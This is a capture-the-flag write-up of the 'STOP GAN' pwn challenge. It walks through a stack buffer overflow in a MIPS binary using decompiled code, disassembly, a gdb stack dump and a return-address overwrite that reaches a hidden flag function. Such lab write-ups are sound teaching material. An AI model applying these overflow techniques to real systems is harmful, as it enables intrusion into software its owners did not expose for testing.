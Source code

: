 # Description
## STOP GAN
Label: pwn

Success, you've gotten the picture of your lost love, not knowing that pictures and the things you take pictures of are generally two seperate things, you think you've rescue them and their brethren by downloading them all to your ships hard drive. They're still being eaten, but this is a fact that has escaped you entirely. Your thoughts swiftly shift to revenge. It's important now to stop this program from destroying these "Cauliflowers" as they're referred to, ever again.

# Solution
This attachment is a zip file containing a `bof` binary and a `console.c` source file. The description for the task also includes the text `buffer-overflow.ctfcompetition.com 1337`. Looking at the source file, we see that the binary `bof` is run using qemu and then we have to send input into that program and cause it to crash. There is also a bonus flag if we can cause a controlled crash. To test locally I just ran `qemu-mipsel bof` which runs the program and shows the prompt `Cauliflower systems never crash >>`. Entering text into the prompt just closes it. Since the goal was to use a buffer overflow I decided to just input a lot of text into the program and with a long enough input, a segfault is created. Now all we have to do is try in on the actual program. So we connect to the server provided in the task `nc buffer-overflow.ctfcompetition.com 1337`, enter `run` then enter our long string of input. After a successful crash, it prints out the flag `CTF{Why_does_cauliflower_threaten_us}`

Since there is another flag, I decided to take a look at decompiling the `bof` binary. For this I used `ghidra`. Since I don't have much experience with this, it was quite difficult to figure out everything, but after playing around with it for a while this was what I figured out. This is what I figured out about what the program looks like
```c
int main(void)
{
  sighandler_t prevHandler;
  int returnVal;
  byte buffer[260];

  prevHandler = signal(SIGSEGV, segfault_handler);
  if (prevHandler == -1) {
    printf("An error occurred setting a signal handler.");
    returnVal = -1;
  } else {
    puts("Cauliflower systems never crash >>");
    scanf("%s", &buffer);
    returnVal = 0;
  }
  return returnVal;
}

void segfault_handler(void)
{
  printf("segfault detected! ***CRASH***");
  print_file("flag0");
  exit(0);
}

void print_file(char *filename)
{
  int fileDescriptor;
  char buffer[4];
  int bytesRead;

  fileDescriptor = open(filename, O_RDONLY);
  if (fileDescriptor == -1) {
    puts("could not open flag");
    exit(1);
  }
  while ((bytesRead = read(fileDescriptor, &buffer, 1)) == 1) {
    write(STDOUT_FILENO, &buffer, 1);
  }
  close(fileDescriptor);
  return;
}
```

You can see that it does a `scanf` into a buffer of size 260. Therefore if we input something that is greater that `260 + 4 (frame pointer)` bytes, we should get a segfault because then we overwrite the return address. The `segfault-payload` file contains the data for causing a segfault.

```
Stack
+---------------------------+ High
|Previous frame             |
|                           |
+---------------------------+
|Return address             |
+---------------------------+
|Buffer                     |
|                           |
|                           |
|                           |
|                           |
+---------------------------+
|return value               |
+---------------------------+
|signal_handler             |
+---------------------------+ Low
```

Notice that there is no sign of the hidden flag in there. That was because ghidra removed an unreachable block. If we look at the assembly instead we can see the hidden block.
```mips
004009bc 60 1f 11 04     bal        scanf                                            ;call scanf()
004009c0 00 00 00 00     _nop                                                        ;branch delay slot
004009c4 10 00 dc 8f     lw         gp,0x10(s8)                                      ;??
004009c8 18 00 c2 8f     lw         returnVal,0x18(s8)                               ;load word into returnVal
004009cc 07 00 40 14     bne        returnVal,zero,setNormalReturnValue              ;this jump skips over the get hidden flag section
004009d0 00 00 00 00     _nop
                        getHiddenFlag
004009d4 30 80 82 8f     lw         returnVal,-0x7fd0(gp)
004009d8 40 08 42 24     addiu      returnVal,returnVal,0x840
004009dc 25 c8 40 00     or         t9,returnVal,zero
004009e0 97 ff 11 04     bal        local_flag                                       ;local_flag()
004009e4 00 00 00 00     _nop                                                        ;branch delay slot
004009e8 10 00 dc 8f     lw         gp,0x10(s8)
                        setNormalReturnValue
004009ec 25 10 00 00     or         returnVal,zero,zero
                        exit
004009f0 25 e8 c0 03     or         sp,s8,zero
004009f4 24 01 bf 8f     lw         ra,0x124(sp)
004009f8 20 01 be 8f     lw         s8,0x120(sp)
004009fc 28 01 bd 27     addiu      sp,sp,0x128
00400a00 08 00 e0 03     jr         ra
00400a04 00 00 00 00     _nop
```

And this is the print local function
```c
void local_flag(void)
{
  print_file("flag1");
  exit(0);
}
```

To get a better picture of what is happening, I used qemu with the gdb debugger to step examine the stack frame.
```
> qemu-mipsel-static -g 5555 bof
> gdb-multiarch
> (gdb) target remote localhost:5555
```

We can then set a breakpoint after `scanf`
> (gdb) b *0x004009c4

Then print out information. Here was the information from the gdb session
```
(gdb) i frame                                                             
Stack level 0, frame at 0x7fffd8f0:                                       
 pc = 0x4009c4 in main; saved pc = 0x400840                               
 Arglist at 0x7fffd8f0, args:                                             
 Locals at 0x7fffd8f0, Previous frame's sp is 0x7fffd8f0                  
 Saved registers:                                                         
  gp at 0x7fffd7d8, s8 at 0x7fffd8e8, ra at 0x7fffd8ec, pc at 0x7fffd8ec  
(gdb) x/100xw $sp                                                         
0x7fffd7c8:     0x00000060      0x7fffd7e4      0x00000001      0x00000000
0x7fffd7d8:     0x004a8970      0x00000000      0x00000001      0xaaaaaaaa
0x7fffd7e8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd7f8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd808:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd818:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd828:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd838:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd848:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd858:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd868:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd878:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd888:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd898:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8a8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8b8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8c8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8d8:     0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa      0xaaaaaaaa
0x7fffd8e8:     0xaaaaaaaa      0x00400840 <-- return address
```

From here I tried overwriting the return address to point to the `read_local` function. Writing to the start of the function `0x00400840` successfuly jumped to the function but when it entered the `print_file` subroutine it crashed. Still not sure about why this happens. Instead, I skipped over some of the setup in the function and jumped to the address `0x00400860` which is where the stack is being setup for the call into `print_file`. This worked as the flag `CTF{controlled_crash_causes_conditional_correspondence}` was printed out.
